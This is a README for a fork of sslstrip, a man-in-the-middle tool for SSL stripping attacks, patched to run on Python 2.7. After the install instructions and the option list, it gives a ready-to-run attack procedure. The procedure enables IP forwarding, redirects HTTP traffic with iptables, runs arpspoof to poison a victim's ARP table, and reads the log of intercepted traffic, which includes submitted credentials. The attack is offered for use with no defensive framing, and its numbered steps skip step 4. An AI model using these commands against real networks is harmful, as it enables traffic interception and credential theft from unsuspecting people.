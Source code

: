 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
$ sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
$ pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
$ git clone https://github.com/juanelas/sslstrip.git
$ cd sslstrip
$ sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the  command-line options.

```text
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional). Default is sslstrip.log
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   ```console
   $ sudo echo "1" > /proc/sys/net/ipv4/ip_forward
   ```

   > If you want to make this change persist after reboot, in Debian-like distros you could better uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with:
   >```console
   >$ sudo sysctl -p
   >```

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>` (if the `-l` option is omitted, `sslstrip` will listen on port `10000`)

   ```console
   $ sslstrip -l <yourListenPort>
   ```

3) Open a new terminal and setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   ```console
   $ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>
   ```

5) Use `arpspoof` to poison the victim's ARP table so that it sends all traffic to the Internet to your machine instead of its default gateway:

   ```console
   $ sudo arpspoof -t <victimIpAddress> <routerIpAddress>
   ```

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros, if not already installed, you can install it with:
   >```console
   >$ sudo apt update && sudo apt install dsniff
   >```

6) Open a network sniffer (e.g. wireshark, tcpdump), or directly inspect the sslstrip log file (`sslstrip.log` by default), e.g. by running in other terminal
   ```console
   $ tail -f sslstrip.log
   ```
